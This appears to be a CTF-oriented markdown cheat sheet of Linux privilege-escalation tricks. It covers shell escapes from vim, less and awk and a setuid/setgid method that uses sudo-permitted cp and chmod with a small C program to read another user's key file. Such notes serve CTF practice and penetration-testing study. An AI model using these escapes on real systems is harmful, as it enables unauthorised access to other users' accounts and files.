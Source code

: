 - **VIM - !Damned Editor!** (some of these can be used in a CTF challenge :chipmunk:)
  - read a file from the editor if you know the path

    ```bash
       :r /path/to/file
    ```

  - enter shell within vim
  
    ```bash
       :!/bin/bash
    ```

&nbsp;

- **LESS - Escalate to shell:**
  
  ```bash
    less --help then type the following command inside less [ !/bin/bash ] or just [ ! ]
  ```

  - One can also read a file inside less by specifing the full path using **:e [PATH]**

&nbsp;

- **AWK - Escalate to shell:**
  
```bash
   awk 'BEGIN {system("/bin/bash")}'
```

&nbsp;

- **Escalate privileges through setting [ setuid ] and [ setgid ]:**
  - Look at what commands the victim/user/target can run. ```sudo -l```
  - If he/she can run both **cp** and **chmod**, then you can escalate privileges.
  - You can copy the bash binary file to the user directory, set uid and gid then execute it and you will have your shell. :smile:
  - Or place the c code below in a file: (to read a file)

    ```c
       int main(void)
        {
        system("cat /home/victim/ctf-key.txt");
        }
    ```

  - Then compile it using gcc:

    ```bash
       gcc -o [FILE] [FILE].c
    ```

  - Then copy the compiled file with the ```sudo -u [ victim ] [ cp ] ....``` command to create a file owned by the victim/user/target user
  - then set the seuid and guid by running ```sudo -u [ victim ] [ chmod ] +xs ....```  command
    - x - make it executable
    - s - set userid and groupid of the user
